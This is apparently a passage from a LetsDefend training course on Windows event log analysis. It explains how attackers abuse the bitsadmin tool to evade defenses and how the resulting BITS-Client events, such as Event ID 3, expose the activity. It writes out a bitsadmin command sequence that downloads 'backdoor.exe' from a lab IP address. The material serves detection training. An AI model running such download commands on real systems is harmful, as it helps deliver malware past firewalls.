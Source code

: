 BITS, like many other  technologies, can be used by legitimate applications as well as  attackers. When malicious applications create BITS jobs, files are  downloaded or uploaded as part of the service host process. This can be  used to bypass firewalls that may block unsafe or unfamiliar processes,  as well as to disguise the application that requested the transfer. BITS transfers can also be scheduled to take place at specific times, rather than being dependent on long-running processes or the task scheduler.

### Using Bitsadmin to Download Files

Let's look at how an attacker can abuse bitsadmin lolbin to download malware/scripts to evade defenses.

```txt
bitsadmin /create letsdefend_eventlogs          
```

![img](https://letsdefend-images.s3.us-east-2.amazonaws.com/Courses/Advanced+Event+Log+Analysis/4.BITS+Client+Event+Log/image4_1.png)

The first command used here is creating a bits job named “letsdefend_eventlogs”.

```txt
bitsadmin /addfile letsdefend_eventlogs http://172.17.79.137/backdoor.exe C:\Users\letsdefend\documents\file.exe           
```

![img](https://letsdefend-images.s3.us-east-2.amazonaws.com/Courses/Advanced+Event+Log+Analysis/4.BITS+Client+Event+Log/image4_2.png)

Next, job parameters are  set. These include the remote URL/URI from which to retrieve a file and  the local path where to save the downloaded file.

```txt
bitsadmin /resume letsdefend_eventlogs               
bitsadmin /complete letsdefend_eventlogs             
```

![img](https://letsdefend-images.s3.us-east-2.amazonaws.com/Courses/Advanced+Event+Log+Analysis/4.BITS+Client+Event+Log/image4_3.png)

This is followed by a  resume flag which downloads the target file. The BITS session remains  open until the /Complete flag is used to complete the BITS job.

### Analysis

Now let's put on our blue hats and analyse the logs generated by this activity.

We are interested in the  Bits-Client Operational logs, which are located under “Applications and  Services Logs > Microsoft > Windows > Bits-Client >  Operational”.

![img](https://letsdefend-images.s3.us-east-2.amazonaws.com/Courses/Advanced+Event+Log+Analysis/4.BITS+Client+Event+Log/image4_4.png)

The first Event ID we are interested in is Event ID 3, which is generated when a Bits job is created.

![img](https://letsdefend-images.s3.us-east-2.amazonaws.com/Courses/Advanced+Event+Log+Analysis/4.BITS+Client+Event+Log/image4_5.png)

The fields we are  interested in are the transfer job name, the job ID which can be used to track other events related to this particular job, and the job owner,  aka the user account used to create the BITS job.
